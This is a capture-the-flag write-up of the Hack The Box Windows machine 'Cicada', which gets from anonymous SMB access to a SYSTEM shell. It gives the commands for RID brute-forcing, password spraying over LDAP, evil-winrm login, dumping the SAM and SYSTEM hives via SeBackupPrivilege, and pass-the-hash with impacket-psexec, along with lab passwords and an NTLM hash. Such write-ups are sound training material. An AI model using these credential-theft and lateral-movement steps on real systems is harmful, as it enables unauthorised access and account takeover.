





# Cicada Writeup - by Thammanant Thamtaranon  
- Cicada is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.11.35
```
  
  
- The scan showed multiple open ports:  
  - 53 (DNS)  
  - 88 (Kerberos)  
  - 135, 139, 445 (MSRPC, NetBIOS, SMB)  
  - 389, 636, 3268, 3269 (LDAP / LDAPS / Global Catalog)  
  - 464 (kpasswd5)  
  - 593 (RPC)  
  - 5985 (WinRM)  

- I added `cicada.htb` and `CICADA-DC.cicada.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We enumerated SMB shares:
```bash
smbclient -L \\cicada.htb\\ -N
```
  
- We tried to connect to `DEV` but could not list its directory. We then tried `HR` and found `Notice from HR.txt`.  
- After inspecting the file, we found the default password.  
  
- To find usernames, I ran:
```bash
netexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep "SidTypeUser" | awk -F'\' '{print $NF}' | awk '{print $1}' | sort -u > users.txt
```
  
- Now that we had the users list, we checked LDAP credentials:  
```bash
netexec ldap 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
  
- We then enumerated LDAP further:  
```bash
netexec ldap CICADA-DC.cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
- We found a password for user `david.orelious`.  
  
- We tried using `netexec winrm` for `david.orelious` but failed. We then connected to `DEV` directory in SMB as `david.orelious` and found `Backup_script.ps1` which contained credentials for `emily.oscars`.  
  
  
- We then checked SMB and WinRM access for `emily.oscars` and confirmed that this user could read the `ADMIN$` directory.  


## Exploitation  
- We connected to the machine using `evil-winrm`:  
```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
  
- We then captured the user flag.

## Privilege Escalation  
- We checked privileges and groups using `whoami /priv` and `whoami /groups`  
  
- The interesting privileges we found were:  
  - `SeBackupPrivilege` (allows reading any file ignoring ACLs, even SYSTEM files)  
  - `SeRestorePrivilege` (allows writing to any file ignoring ACLs, useful for overwriting executables)  
- We downloaded `SAM` and `SYSTEM` files to extract Windows password hashes:  
```bash
impacket-secretsdump -sam sam -system system LOCAL
```
  
  
- We then used `impacket-psexec` with the extracted hash:  
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341 administrator@10.10.11.35
```
- Finally, we obtained a SYSTEM shell and captured the root flag.  

